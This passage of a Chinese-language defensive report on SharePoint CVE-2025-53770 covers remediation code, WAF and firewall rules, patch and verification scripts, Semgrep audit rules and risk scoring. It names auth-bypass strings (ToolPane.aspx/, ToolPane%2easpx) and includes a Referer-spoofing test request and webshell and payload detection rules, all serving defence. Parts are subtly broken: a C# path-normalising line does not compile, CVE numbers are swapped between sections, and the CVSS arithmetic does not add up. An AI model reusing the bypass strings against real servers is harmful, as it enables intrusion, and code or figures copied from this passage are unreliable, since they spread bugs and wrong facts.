                $"Blocked deserialization of type: {fullTypeName}", 
                EventLogEntryType.Warning, 
                5000);
            
            throw new SecurityException($"Type {fullTypeName} is not whitelisted for deserialization");
        }
        
        return Type.GetType(fullTypeName, throwOnError: true, ignoreCase: false);
    }
}

// 使用
public object LoadDataWithBinder(Stream stream)
{
    var formatter = new BinaryFormatter
    {
        Binder = new SafeSerializationBinder()  // 强制类型检查
    };
    
    return formatter.Deserialize(stream);
}
```

**13.2.3 认证绕过修复**

```
// 旧代码 (CVE-2025-49706 - 易受攻击)
protected void OnPostAuthenticateRequest(HttpContext context)
{
    var referrer = context.Request.UrlReferrer;
    if (referrer != null && 
        referrer.PathAndQuery.EndsWith("SignOut.aspx", StringComparison.OrdinalIgnoreCase))
    {
        _skipAuthCheck = true;  // 错误! 应该只允许静态资源
    }
    
    if (!_skipAuthCheck && !context.Request.IsAuthenticated)
    {
        context.Response.StatusCode = 401;
        context.Response.End();
    }
}

// 补丁后代码 (CVE-2025-53771 - 仍有问题)
protected void OnPostAuthenticateRequest(HttpContext context)
{
    var referrer = context.Request.UrlReferrer;
    var path = context.Request.Path;
    
    if (referrer != null && 
        referrer.PathAndQuery.EndsWith("SignOut.aspx", StringComparison.OrdinalIgnoreCase))
    {
        // 改进: 检查请求路径
        if (path.EndsWith("ToolPane.aspx", StringComparison.OrdinalIgnoreCase))
        {
            _skipAuthCheck = false;  // 不允许 ToolPane
        }
        else
        {
            _skipAuthCheck = true;
        }
    }
    
    // 绕过: 可以用 ToolPane.aspx/ 或 ToolPane%2easpx 绕过 EndsWith
}

// 最终安全代码 (2025-07-24 最终修复)
protected void OnPostAuthenticateRequest(HttpContext context)
{
    // 1. 规范化路径 (防止编码绕过)
    string normalizedPath = NormalizePath(context.Request.Path);
    Uri referrer = context.Request.UrlReferrer;
    
    // 2. 白名单: 仅这些资源可在 SignOut Referer 下匿名访问
    var allowedResourcesWithSignOutRef = new HashSet<string>(StringComparer.OrdinalIgnoreCase)
    {
        "/_layouts/15/init.js",
        "/_layouts/15/core.js",
        "/ScriptResource.axd",
        "/WebResource.axd",
        "/_layouts/15/images/",  // 图片目录
        "/_layouts/15/styles/"   // CSS 目录
    };
    
    if (referrer != null && 
        NormalizePath(referrer.PathAndQuery).EndsWith("/_layouts/15/SignOut.aspx", StringComparison.OrdinalIgnoreCase))
    {
        // 严格白名单检查
        bool allowed = allowedResourcesWithSignOutRef.Any(resource => 
            normalizedPath.StartsWith(resource, StringComparison.OrdinalIgnoreCase));
        
        _skipAuthCheck = allowed;
    }
    
    // 3. 强制认证检查
    if (!_skipAuthCheck && !context.Request.IsAuthenticated)
    {
        context.Response.StatusCode = 401;
        context.Response.End();
    }
}

private string NormalizePath(string path)
{
    // 1. URL 解码 (防止 %2e 等编码)
    path = Uri.UnescapeDataString(path);
    
    // 2. 转小写
    path = path.ToLowerInvariant();
    
    // 3. 移除尾部斜杠和点号
    path = path.TrimEnd('/', '.');
    
    // 4. 解析路径遍历 (/../, /./)
    path = Path.GetFullPath(path).Replace('\', '/');
    
    return path;
}
```

#### 13.3 WAF 规则部署 (完整配置)

```
# ModSecurity 完整配置 (放入 /etc/modsecurity/rules/cve-2025-53770.conf)

# 启用规则引擎
SecRuleEngine On

# 设置审计日志
SecAuditEngine RelevantOnly
SecAuditLogParts ABIJDEFHZ
SecAuditLogType Serial
SecAuditLog /var/log/modsecurity/audit.log

# 规则1: 阻断 ToolPane.aspx 匿名访问
SecRule REQUEST_FILENAME "@rx (?i)/_layouts/15/ToolPane\.aspx" \
  "id:7770001,\
   phase:1,\
   t:lowercase,t:normalisePath,\
   chain,\
   deny,\
   status:403,\
   log,\
   msg:'CVE-2025-53770: ToolPane.aspx blocked (SignOut referer)',\
   severity:CRITICAL,\
   tag:'CVE-2025-53770',\
   tag:'OWASP_CRS/WEB_ATTACK/CVE'"
    SecRule REQUEST_HEADERS:Referer "@rx (?i)SignOut\.aspx"

# 规则2: 限制 POST 大小
SecRule REQUEST_METHOD "@streq POST" \
  "id:7770002,\
   phase:1,\
   chain"
    SecRule REQUEST_URI "@rx (?i)/_layouts/.*\.aspx" \
      "chain"
        SecRule REQUEST_HEADERS:Content-Length "@gt 102400" \
          "deny,\
           status:413,\
           log,\
           msg:'CVE-2025-53770: POST too large (>100KB)',\
           severity:WARNING"

# 规则3: 检测 ExcelDataSet 控件
SecRule REQUEST_BODY "@rx (?i)<type\s+name\s*=.*ExcelDataSet" \
  "id:7770003,\
   phase:2,\
   t:lowercase,\
   deny,\
   status:406,\
   log,\
   msg:'CVE-2025-53770: ExcelDataSet control blocked',\
   severity:CRITICAL,\
   tag:'CVE-2025-53770'"

# 规则4: 检测 CompressedDataTable 参数
SecRule ARGS:CompressedDataTable "!@eq ''" \
  "id:7770004,\
   phase:2,\
   deny,\
   status:406,\
   log,\
   msg:'CVE-2025-53770: CompressedDataTable parameter blocked',\
   severity:CRITICAL"

# 规则5: 检测大型 Base64 数据
SecRule REQUEST_BODY "@rx [A-Za-z0-9+/]{10000,}={0,2}" \
  "id:7770005,\
   phase:2,\
   chain"
    SecRule REQUEST_URI "@rx (?i)/_layouts/" \
      "deny,\
       status:406,\
       log,\
       msg:'CVE-2025-53770: Large Base64 payload detected',\
       severity:HIGH"

# 规则6: 白名单认证 Cookie
SecRule REQUEST_FILENAME "@rx (?i)/_layouts/15/ToolPane\.aspx" \
  "id:7770006,\
   phase:1,\
   chain"
    SecRule REQUEST_COOKIES:/FedAuth|rtFa/ "@eq ''" \
      "deny,\
       status:401,\
       setvar:'tx.msg=%{rule.msg}',\
       log,\
       msg:'CVE-2025-53770: No auth cookie for ToolPane access',\
       severity:HIGH"

# 规则7: 速率限制 (防止暴力扫描)
SecAction \
  "id:7770007,\
   phase:1,\
   nolog,\
   pass,\
   initcol:ip=%{REMOTE_ADDR},\
   setvar:ip.toolpane_counter=+1,\
   expirevar:ip.toolpane_counter=60"

SecRule IP:TOOLPANE_COUNTER "@gt 5" \
  "id:7770008,\
   phase:1,\
   deny,\
   status:429,\
   log,\
   msg:'CVE-2025-53770: Rate limit exceeded (>5 req/min)',\
   severity:WARNING"

# 规则9: 阻断已知 IOC (IP 黑名单 - 示例)
SecRule REMOTE_ADDR "@ipMatch 192.0.2.100,198.51.100.0/24" \
  "id:7770009,\
   phase:1,\
   deny,\
   status:403,\
   log,\
   msg:'CVE-2025-53770: Blocked known attacker IP',\
   severity:CRITICAL"

# 规则10: 检测 webshell 上传尝试
SecRule FILES "@rx \.aspx$" \
  "id:7770010,\
   phase:2,\
   t:lowercase,\
   chain"
    SecRule FILES_TMPNAMES "@inspectFile /usr/local/bin/scan_webshell.sh" \
      "deny,\
       status:406,\
       log,\
       msg:'CVE-2025-53770: Potential webshell upload blocked',\
       severity:CRITICAL"
```

**启用 WAF 配置**:

```
# 1. 包含规则文件
echo 'Include /etc/modsecurity/rules/cve-2025-53770.conf' >> /etc/apache2/mods-enabled/security2.conf

# 2. 测试配置
apachectl configtest

# 3. 重新加载
systemctl reload apache2

# 4. 监控审计日志
tail -f /var/log/modsecurity/audit.log | grep 'CVE-2025-53770'
```

#### 13.4 零信任架构实施

```
# Azure AD 条件访问策略 (JSON 格式)
{
  "displayName": "CVE-2025-53770 Protection - SharePoint Access",
  "state": "enabled",
  "conditions": {
    "applications": {
      "includeApplications": ["SharePoint-App-ID"]
    },
    "users": {
      "includeUsers": ["All"]
    },
    "locations": {
      "includeLocations": ["All"],
      "excludeLocations": ["Trusted-Corporate-Network"]
    }
  },
  "grantControls": {
    "operator": "AND",
    "builtInControls": [
      "mfa",  // 要求 MFA
      "compliantDevice"  // 要求合规设备
    ]
  },
  "sessionControls": {
    "applicationEnforcedRestrictions": {
      "isEnabled": true
    },
    "signInFrequency": {
      "value": 1,
      "type": "hours"  // 每小时重新认证
    }
  }
}
```

**网络分段**:

```
┌─────────────────────────────────────────────┐
│ 互联网                                        │
└────────────────┬────────────────────────────┘
                 │
         ┌───────▼────────┐
         │ WAF + IPS      │ ← ModSecurity + Snort
         │ (DMZ)          │
         └───────┬────────┘
                 │
         ┌───────▼────────┐
         │ 反向代理        │ ← NGINX + 证书
         │ (隔离区)        │
         └───────┬────────┘
                 │
         ┌───────▼────────┐
         │ SharePoint     │ ← 内网,仅允许反向代理访问
         │ (内部网络)      │
         └───────┬────────┘
                 │
         ┌───────▼────────┐
         │ SQL Server     │ ← 更深层内网,仅 SharePoint 访问
         │ (数据层)        │
         └────────────────┘
```

**防火墙规则** (PowerShell):

```
# 1. 默认拒绝所有入站
New-NetFirewallRule -DisplayName "Block All Inbound (Default)" `
    -Direction Inbound `
    -Action Block `
    -Enabled True `
    -Profile Any

# 2. 仅允许来自反向代理的 HTTP/HTTPS
New-NetFirewallRule -DisplayName "Allow HTTP from Reverse Proxy" `
    -Direction Inbound `
    -Protocol TCP `
    -LocalPort 80,443 `
    -RemoteAddress 10.0.1.10 `  # 反向代理 IP
    -Action Allow `
    -Enabled True

# 3. 允许 SharePoint 到 SQL Server
New-NetFirewallRule -DisplayName "SharePoint to SQL" `
    -Direction Outbound `
    -Protocol TCP `
    -RemotePort 1433 `
    -RemoteAddress 10.0.2.20 `  # SQL Server IP
    -Program "C:\Windows\System32\inetsrv\w3wp.exe" `
    -Action Allow `
    -Enabled True

# 4. 阻断 w3wp.exe 的其他出站连接 (防止 C2 通信)
New-NetFirewallRule -DisplayName "Block w3wp.exe Outbound (Except SQL)" `
    -Direction Outbound `
    -Program "C:\Windows\System32\inetsrv\w3wp.exe" `
    -Action Block `
    -Enabled True
```

### 第14章: 补丁部署与验证

#### 14.1 补丁清单

|  |  |  |  |
| --- | --- | --- | --- |
| SharePoint 版本 | KB 编号 | 下载链接 | SHA256 |
| SharePoint Server Subscription Edition | KB5002768 | [Microsoft Update](https://www.catalog.update.microsoft.com/Search.aspx?q=KB5002768) | `<hash>` |
| SharePoint Server 2019 | KB5002754 | [Microsoft Update](https://www.catalog.update.microsoft.com/Search.aspx?q=KB5002754) | `<hash>` |
| SharePoint Server 2016 | KB5002760 | [Microsoft Update](https://www.catalog.update.microsoft.com/Search.aspx?q=KB5002760) | `<hash>` |

#### 14.2 自动化部署脚本

```
<#
.SYNOPSIS
    自动化 SharePoint 补丁部署
.DESCRIPTION
    下载、验证、安装、配置 SharePoint 安全更新
.PARAMETER PatchPath
    补丁文件路径 (可选,如果未指定则自动下载)
.PARAMETER SkipBackup
    跳过备份 (不推荐)
#>

param(
    [string]$PatchPath,
    [switch]$SkipBackup
)

# 配置
$patchMapping = @{
    'Subscription' = @{ KB='KB5002768'; URL='https://catalog.update.microsoft.com/...' }
    '2019' = @{ KB='KB5002754'; URL='https://catalog.update.microsoft.com/...' }
    '2016' = @{ KB='KB5002760'; URL='https://catalog.update.microsoft.com/...' }
}

function Get-SharePointVersion {
    Add-PSSnapin Microsoft.SharePoint.PowerShell -ErrorAction SilentlyContinue
    $spVersion = (Get-SPFarm).BuildVersion.Major
    
    switch ($spVersion) {
        16 {
            $patch = Get-SPFarmProductInstance | Where-Object {$_.ProductVersion -match '16.0.1\d{4}'}
            if ($patch.ProductVersion -ge '16.0.10000') {
                return 'Subscription'
            } else {
                return '2019'
            }
        }
        15 { return '2016' }
        default { throw "Unsupported SharePoint version: $spVersion" }
    }
}

function Invoke-PrePatchBackup {
    Write-Host "[1/6] 执行备份..." -ForegroundColor Yellow
    
    # 1. 备份配置数据库
    $configDB = (Get-SPFarm).Name
    $backupPath = "C:\Backups\SharePoint_$(Get-Date -F yyyyMMdd-HHmmss)"
    New-Item -Path $backupPath -ItemType Directory -Force | Out-Null
    
    Write-Host "    [*] 备份配置数据库: $configDB" -ForegroundColor Cyan
    Backup-SPFarm -Directory $backupPath -BackupMethod Full -Item "Farm\Configuration Database"
    
    # 2. 备份 IIS 配置
    Write-Host "    [*] 备份 IIS 配置..." -ForegroundColor Cyan
    & "$env:SystemRoot\System32\inetsrv\appcmd.exe" add backup "Before-CVE-2025-53770-Patch"
    
    # 3. 备份 web.config (包含 MachineKey)
    Write-Host "    [*] 备份 web.config..." -ForegroundColor Cyan
    $webConfigs = Get-SPWebApplication | ForEach-Object {
        Join-Path $_.IisSettings[0].Path.FullName "web.config"
    }
    foreach ($config in $webConfigs) {
        Copy-Item $config "$backupPath\$(Split-Path $config -Leaf).bak"
    }
    
    Write-Host "    [+] 备份完成: $backupPath" -ForegroundColor Green
    return $backupPath
}

function Install-SharePointPatch {
    param([string]$PatchFile)
    
    Write-Host "[2/6] 安装补丁..." -ForegroundColor Yellow
    
    # 1. 验证文件完整性 (SHA256)
    Write-Host "    [*] 验证补丁文件..." -ForegroundColor Cyan
    $hash = (Get-FileHash $PatchFile -Algorithm SHA256).Hash
    # TODO: 验证 hash 与官方值匹配
    
    # 2. 停止 SharePoint 服务 (可选,减少文件锁定)
    Write-Host "    [*] 停止 SharePoint 服务..." -ForegroundColor Cyan
    Stop-Service SPTimerV4, SPAdminV4 -ErrorAction SilentlyContinue
    
    # 3. 安装 MSP 补丁
    Write-Host "    [*] 执行补丁安装 (这可能需要10-30分钟)..." -ForegroundColor Cyan
    $process = Start-Process msiexec.exe -ArgumentList "/update `"$PatchFile`" /passive /norestart" -Wait -PassThru
    
    if ($process.ExitCode -ne 0 -and $process.ExitCode -ne 3010) {  # 3010 = 需要重启
        throw "补丁安装失败,退出代码: $($process.ExitCode)"
    }
    
    Write-Host "    [+] 补丁安装完成" -ForegroundColor Green
    
    # 4. 重启服务
    Write-Host "    [*] 重启 SharePoint 服务..." -ForegroundColor Cyan
    Start-Service SPTimerV4, SPAdminV4
    
    return $process.ExitCode
}

function Update-SharePointConfiguration {
    Write-Host "[3/6] 更新 SharePoint 配置..." -ForegroundColor Yellow
    
    # 运行 PSConfig (SharePoint 配置向导)
    Write-Host "    [*] 执行 PSConfig.exe (这可能需要10-60分钟)..." -ForegroundColor Cyan
    $psconfigPath = "C:\Program Files\Common Files\microsoft shared\Web Server Extensions\16\BIN\PSConfig.exe"
    
    $process = Start-Process $psconfigPath -ArgumentList "-cmd upgrade -inplace b2b -wait -force" -Wait -PassThru -NoNewWindow
    
    if ($process.ExitCode -ne 0) {
        throw "PSConfig 失败,退出代码: $($process.ExitCode)"
    }
    
    Write-Host "    [+] 配置更新完成" -ForegroundColor Green
}

function Enable-SecurityHardenings {
    Write-Host "[4/6] 应用安全加固..." -ForegroundColor Yellow
    
    # 1. 启用 AMSI Full Mode
    Write-Host "    [*] 启用 AMSI..." -ForegroundColor Cyan
    Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" `
        -Name "ScanLevel" -Value 2 -Type DWord -Force
    
    # 2. 轮换 MachineKey
    Write-Host "    [*] 轮换 MachineKey..." -ForegroundColor Cyan
    $newVK = -join ((48..57) + (65..70) | Get-Random -Count 128 | ForEach-Object {[char]$_})
    $newDK = -join ((48..57) + (65..70) | Get-Random -Count 48 | ForEach-Object {[char]$_})
    
    Get-SPWebApplication | ForEach-Object {
        $configPath = Join-Path $_.IisSettings[0].Path.FullName "web.config"
        [xml]$config = Get-Content $configPath
        
        $mk = $config.configuration.'system.web'.machineKey
        if ($mk) {
            $mk.validationKey = $newVK
            $mk.decryptionKey = $newDK
            $config.Save($configPath)
        }
    }
    
    # 3. 启用 ViewState MAC 验证 (确保已启用)
    Write-Host "    [*] 验证 ViewState 保护..." -ForegroundColor Cyan
    Get-SPWebApplication | ForEach-Object {
        $configPath = Join-Path $_.IisSettings[0].Path.FullName "web.config"
        [xml]$config = Get-Content $configPath
        
        $pages = $config.configuration.'system.web'.pages
        if ($pages.enableViewStateMac -ne 'true') {
            $pages.enableViewStateMac = 'true'
            $config.Save($configPath)
            Write-Host "    [+] 已启用 ViewStateMac: $configPath" -ForegroundColor Green
        }
    }
    
    Write-Host "    [+] 安全加固完成" -ForegroundColor Green
}

function Test-PatchInstallation {
    Write-Host "[5/6] 验证补丁安装..." -ForegroundColor Yellow
    
    $expectedKB = @('KB5002754','KB5002768','KB5002760')
    $installedPatches = Get-HotFix | Where-Object {$_.HotFixID -in $expectedKB}
    
    if ($installedPatches) {
        Write-Host "    [+] 补丁已安装: $($installedPatches.HotFixID -join ', ')" -ForegroundColor Green
        return $true
    } else {
        Write-Host "    [!] 未检测到补丁!" -ForegroundColor Red
        return $false
    }
}

function Restart-IISAndSharePoint {
    Write-Host "[6/6] 重启 IIS 和 SharePoint..." -ForegroundColor Yellow
    
    # 1. 重启 IIS
    Write-Host "    [*] 执行 iisreset..." -ForegroundColor Cyan
    iisreset /noforce
    
    # 2. 重启 SharePoint 定时器服务
    Write-Host "    [*] 重启 SharePoint 定时器服务..." -ForegroundColor Cyan
    Restart-Service SPTimerV4
    
    Write-Host "    [+] 服务重启完成" -ForegroundColor Green
}

# 主流程
try {
    Write-Host "`n========================================" -ForegroundColor Cyan
    Write-Host "SharePoint CVE-2025-53770 补丁部署" -ForegroundColor Cyan
    Write-Host "========================================`n" -ForegroundColor Cyan
    
    # 检测版本
    $spVersion = Get-SharePointVersion
    Write-Host "[*] 检测到 SharePoint $spVersion" -ForegroundColor Cyan
    $requiredPatch = $patchMapping[$spVersion]
    
    # 确定补丁路径
    if (-not $PatchPath) {
        $PatchPath = "C:\Patches\$($requiredPatch.KB).msp"
        if (-not (Test-Path $PatchPath)) {
            Write-Host "[!] 补丁文件不存在: $PatchPath" -ForegroundColor Red
            Write-Host "    请从以下地址下载: $($requiredPatch.URL)" -ForegroundColor Yellow
            exit 1
        }
    }
    
    # 执行部署
    if (-not $SkipBackup) {
        $backupPath = Invoke-PrePatchBackup
    }
    
    $exitCode = Install-SharePointPatch -PatchFile $PatchPath
    Update-SharePointConfiguration
    Enable-SecurityHardenings
    $success = Test-PatchInstallation
    Restart-IISAndSharePoint
    
    # 摘要
    Write-Host "`n========================================" -ForegroundColor Cyan
    Write-Host "部署完成!" -ForegroundColor Green
    Write-Host "========================================" -ForegroundColor Cyan
    Write-Host "补丁: $($requiredPatch.KB)" -ForegroundColor White
    Write-Host "备份: $backupPath" -ForegroundColor White
    Write-Host "状态: $(if($success){'成功'}else{'需要检查'})" -ForegroundColor $(if($success){'Green'}else{'Red'})
    
    if ($exitCode -eq 3010) {
        Write-Host "`n[!] 需要重启服务器以完成安装" -ForegroundColor Yellow
        Write-Host "    请在维护窗口期执行: Restart-Computer -Force" -ForegroundColor Yellow
    }
    
} catch {
    Write-Host "`n[!] 部署失败: $_" -ForegroundColor Red
    Write-Host "    请检查日志: C:\Logs\SharePointPatch.log" -ForegroundColor Yellow
    exit 1
}
```

## PART V: 修复与评估

### 第15章: 补丁修复技术细节

#### 15.1 补丁修改的核心组件

**15.1.1 PostAuthenticateRequestHandler 修复**

```
// 修复前 (CVE-2025-49706)
if (request.UrlReferrer != null && 
    request.UrlReferrer.PathAndQuery.IndexOf("SignOut.aspx", StringComparison.OrdinalIgnoreCase) >= 0)
{
    skipAuthCheck = true;  // 过于宽松
}

// 第一次修复 (CVE-2025-53770 仍可绕过)
if (request.UrlReferrer != null && 
    request.UrlReferrer.PathAndQuery.EndsWith("SignOut.aspx", StringComparison.OrdinalIgnoreCase))
{
    if (!request.Path.EndsWith("ToolPane.aspx", StringComparison.OrdinalIgnoreCase))
    {
        skipAuthCheck = true;
    }
}
// 绕过: ToolPane.aspx/ 或 ToolPane%2easpx

// 最终修复 (CVE-2025-53771 后)
string normalizedPath = NormalizePath(request.Path);
string normalizedReferer = request.UrlReferrer != null ? NormalizePath(request.UrlReferrer.PathAndQuery) : "";

if (normalizedReferer.EndsWith("/_layouts/15/signout.aspx", StringComparison.OrdinalIgnoreCase))
{
    // 严格白名单
    var allowed = new[] {
        "/_layouts/15/init.js",
        "/_layouts/15/core.js",
        "/scriptresource.axd",
        "/webresource.axd"
    };
    
    skipAuthCheck = allowed.Any(r => normalizedPath.StartsWith(r, StringComparison.OrdinalIgnoreCase));
}
```

**15.1.2 ExcelDataSet 反序列化修复**

```
// 修复前: 无 SerializationBinder
public DataTable DataTable
{
    get
    {
        if (_dataTable == null && !string.IsNullOrEmpty(_compressedData))
        {
            var formatter = new BinaryFormatter();  // 危险!
            _dataTable = (DataTable)formatter.Deserialize(GetDecompressedStream());
        }
        return _dataTable;
    }
}

// 修复后: 添加 SerializationBinder
public DataTable DataTable
{
    get
    {
        if (_dataTable == null && !string.IsNullOrEmpty(_compressedData))
        {
            var formatter = new BinaryFormatter
            {
                Binder = new SafeDataTableBinder()  // 强制类型检查
            };
            
            try
            {
                _dataTable = (DataTable)formatter.Deserialize(GetDecompressedStream());
            }
            catch (SecurityException ex)
            {
                // 记录并拒绝
                Trace.WriteLine($"Blocked deserialization: {ex.Message}");
                throw;
            }
        }
        return _dataTable;
    }
}

internal sealed class SafeDataTableBinder : SerializationBinder
{
    private static readonly HashSet<string> AllowedTypes = new HashSet<string>
    {
        "System.Data.DataTable, System.Data",
        "System.Data.DataSet, System.Data",
        "System.Data.DataColumn, System.Data",
        "System.Data.DataRow, System.Data"
    };
    
    public override Type BindToType(string assemblyName, string typeName)
    {
        string fullName = $"{typeName}, {assemblyName}";
        
        if (!AllowedTypes.Contains(fullName))
        {
            throw new SecurityException($"Type not allowed: {fullName}");
        }
        
        return Type.GetType(fullName, throwOnError: true);
    }
}
```

**15.1.3 AMSI 集成 (新增)**

```
// 补丁新增: 在反序列化前调用 AMSI 扫描
using System.Runtime.InteropServices;

[DllImport("amsi.dll", CharSet = CharSet.Unicode)]
private static extern int AmsiScanBuffer(
    IntPtr amsiContext,
    byte[] buffer,
    uint length,
    string contentName,
    IntPtr session,
    out int result);

public DataTable DataTable
{
    get
    {
        if (_dataTable == null && !string.IsNullOrEmpty(_compressedData))
        {
            byte[] compressedBytes = Convert.FromBase64String(_compressedData);
            
            // AMSI 扫描 (新增)
            if (!ScanWithAMSI(compressedBytes))
            {
                throw new SecurityException("Content blocked by AMSI");
            }
            
            // 继续反序列化 (使用 SerializationBinder)
            var formatter = new BinaryFormatter { Binder = new SafeDataTableBinder() };
            _dataTable = (DataTable)formatter.Deserialize(DecompressData(compressedBytes));
        }
        return _dataTable;
    }
}

private bool ScanWithAMSI(byte[] data)
{
    IntPtr amsiContext = GetAMSIContext();  // 获取 AMSI 上下文
    int result;
    
    int hr = AmsiScanBuffer(amsiContext, data, (uint)data.Length, "SharePoint.DataTable", IntPtr.Zero, out result);
    
    // AMSI_RESULT_CLEAN = 0, AMSI_RESULT_DETECTED = 32768
    return hr == 0 && result < 32768;
}
```

#### 15.2 补丁有效性验证

```
# 验证脚本
function Test-CVE2025537770Patch {
    Write-Host "[*] 验证 CVE-2025-53770 补丁..." -ForegroundColor Cyan
    
    $results = @{
        KBInstalled = $false
        AMSIEnabled = $false
        BinderPresent = $false
        AuthFixed = $false
    }
    
    # 1. 验证 KB 补丁
    $kbs = @('KB5002754','KB5002768','KB5002760')
    $installed = Get-HotFix | Where-Object {$_.HotFixID -in $kbs}
    if ($installed) {
        $results.KBInstalled = $true
        Write-Host "  [+] 补丁已安装: $($installed.HotFixID)" -ForegroundColor Green
    }
    
    # 2. 验证 AMSI
    $amsiReg = Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -ErrorAction SilentlyContinue
    if ($amsiReg -and $amsiReg.ScanLevel -eq 2) {
        $results.AMSIEnabled = $true
        Write-Host "  [+] AMSI Full Mode 已启用" -ForegroundColor Green
    }
    
    # 3. 验证 SerializationBinder (通过程序集检查)
    $spDll = "C:\Program Files\Common Files\microsoft shared\Web Server Extensions\16\ISAPI\Microsoft.SharePoint.dll"
    $assembly = [System.Reflection.Assembly]::LoadFrom($spDll)
    $binderType = $assembly.GetTypes() | Where-Object {$_.Name -like '*SerializationBinder*'}
    if ($binderType) {
        $results.BinderPresent = $true
        Write-Host "  [+] SerializationBinder 已实现" -ForegroundColor Green
    }
    
    # 4. 测试认证绕过修复 (发送测试请求)
    try {
        $response = Invoke-WebRequest -Uri "https://localhost/_layouts/15/ToolPane.aspx" `
            -Headers @{'Referer'='https://localhost/_layouts/SignOut.aspx'} `
            -Method POST `
            -SkipCertificateCheck `
            -ErrorAction Stop
        
        # 如果返回 200,说明未修复
        if ($response.StatusCode -eq 200) {
            Write-Host "  [!] 认证绕过未修复 (仍可匿名访问)" -ForegroundColor Red
        }
    } catch {
        if ($_.Exception.Response.StatusCode -eq 401 -or $_.Exception.Response.StatusCode -eq 403) {
            $results.AuthFixed = $true
            Write-Host "  [+] 认证绕过已修复 (返回 $($_.Exception.Response.StatusCode))" -ForegroundColor Green
        }
    }
    
    # 总结
    $passCount = ($results.Values | Where-Object {$_ -eq $true}).Count
    Write-Host "`n[*] 验证完成: $passCount/4 项通过" -ForegroundColor Cyan
    
    return $results
}

# Test-CVE2025537770Patch
```

### 第16章: 代码审计清单

#### 16.1 反序列化审计

**自动化扫描 (Semgrep 规则)**

```
# semgrep-rules/csharp-unsafe-deserialization.yml
rules:
  - id: unsafe-binaryformatter-deserialize
    pattern: |
      $FORMATTER = new BinaryFormatter();
      ...
      $FORMATTER.Deserialize($STREAM);
    message: Unsafe BinaryFormatter.Deserialize without SerializationBinder (CWE-502)
    languages: [csharp]
    severity: ERROR
    metadata:
      cve: CVE-2025-53770
      cwe: CWE-502
      confidence: HIGH
    fix: |
      var formatter = new BinaryFormatter { Binder = new SafeSerializationBinder() };
      formatter.Deserialize(stream);
  
  - id: missing-serialization-binder
    pattern: |
      new BinaryFormatter()
    pattern-not: |
      new BinaryFormatter { Binder = $BINDER }
    message: BinaryFormatter instantiated without SerializationBinder
    languages: [csharp]
    severity: WARNING
    metadata:
      cve: CVE-2025-53770
  
  - id: gzip-to-deserialize-chain
    pattern: |
      using (var $GZ = new GZipStream($STREAM, CompressionMode.Decompress))
      {
        ...
        $FORMATTER.Deserialize($GZ);
      }
    message: Compressed stream deserialization (potential CVE-2025-53770 pattern)
    languages: [csharp]
    severity: WARNING
```

**运行审计**:

```
# 安装 Semgrep
pip install semgrep

# 扫描 SharePoint 代码库
semgrep --config semgrep-rules/ "C:\Program Files\Common Files\microsoft shared\Web Server Extensions\16" --verbose
```

#### 16.2 认证绕过审计

**模式匹配**:

```
// 危险模式1: 基于 Referer 的认证跳过
if (request.UrlReferrer != null && request.UrlReferrer.ToString().Contains("某个页面"))
{
    skipAuthentication = true;  // 危险!
}

// 危险模式2: 基于 EndsWith 的路径检查
if (request.Path.EndsWith("xxx.aspx"))
{
    // 可能被 xxx.aspx/ 或 xxx%2easpx 绕过
}

// 危险模式3: IndexOf 判断
if (path.IndexOf("admin") >= 0)
{
    // 可能被 adm%69n 等编码绕过
}
```

**审计脚本** (PowerShell):

```
function Find-AuthenticationBypass {
    param([string]$CodePath)
    
    $patterns = @(
        'UrlReferrer.*Contains|EndsWith|IndexOf',
        'skipAuth.*=.*true',
        'Request\.IsAuthenticated.*false',
        'Response\.StatusCode.*401.*End\(\)'
    )
    
    foreach ($pattern in $patterns) {
        $matches = Select-String -Path "$CodePath\*.cs" -Pattern $pattern -Recurse
        if ($matches) {
            Write-Host "[!] 发现潜在认证绕过模式: $pattern" -ForegroundColor Yellow
            $matches | ForEach-Object {
                Write-Host "    $($_.Filename):$($_.LineNumber) - $($_.Line.Trim())" -ForegroundColor Gray
            }
        }
    }
}

# Find-AuthenticationBypass -CodePath "C:\Source\SharePoint"
```

#### 16.3 文件操作审计

```
# Semgrep: 检测危险文件操作
rules:
  - id: write-to-layouts-directory
    pattern: |
      File.WriteAllText($PATH, $CONTENT)
    pattern-where-python: |
      any(x in vars["$PATH"] for x in ["LAYOUTS", "TEMPLATE", "_layouts"])
    message: Writing files to SharePoint LAYOUTS directory (potential webshell)
    languages: [csharp]
    severity: ERROR
```

### 第17章: 风险评估与业务影响

#### 17.1 CVSS v3.1 详细评分

```
向量字符串: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

基础指标:
  攻击向量 (AV): Network (远程网络)                      = 0.85
  攻击复杂度 (AC): Low (无需特殊条件)                    = 0.77
  所需权限 (PR): None (无需认证)                         = 0.85
  用户交互 (UI): None (无需用户参与)                     = 0.85
  影响范围 (S): Unchanged (不影响其他组件)               = 1.0

影响指标:
  机密性影响 (C): High (完全数据泄露)                    = 0.56
  完整性影响 (I): High (任意数据修改)                    = 0.56
  可用性影响 (A): High (服务完全拒绝)                    = 0.56

计算:
  Impact = 1 - [(1-0.56) × (1-0.56) × (1-0.56)] = 0.915
  Exploitability = 8.22 × 0.85 × 0.77 × 0.85 × 0.85 = 3.9
  BaseScore = min((Impact + Exploitability), 10) = 9.8 (CRITICAL)
```

#### 17.2 行业特定风险

|  |  |  |  |
| --- | --- | --- | --- |
| 行业 | 风险等级 | 原因 | 潜在损失 |
| 金融 | CRITICAL | 客户数据泄露,监管罚款,声誉损失 | $10M - $50M |
| 政府 | CRITICAL | 国家安全数据泄露,APT 攻击目标 | 无法量化 |
| 医疗 | CRITICAL | HIPAA 违规,患者隐私泄露 | $5M - $30M (HIPAA罚款高达$1.5M/年) |
| 制造 | HIGH | 知识产权窃取,供应链中断 | $2M - $15M |
| 教育 | MEDIUM | 学生记录泄露,研究数据窃取 | $500K - $5M |

#### 17.3 财务影响量化

```
# 财务影响计算模型
def calculate_financial_impact(org_size, industry, data_sensitivity):
    """
    org_size: 'small'(<500员工), 'medium'(500-5000), 'large'(>5000)
    industry: 'finance', 'healthcare', 'government', 'manufacturing', 'education'
    data_sensitivity: 'low', 'medium', 'high', 'critical'
    """
    base_cost = {
        'small': 500000,      # $500K
        'medium': 2000000,    # $2M
        'large': 5000000      # $5M
    }
    
    industry_multiplier = {
        'finance': 3.0,
        'healthcare': 2.5,
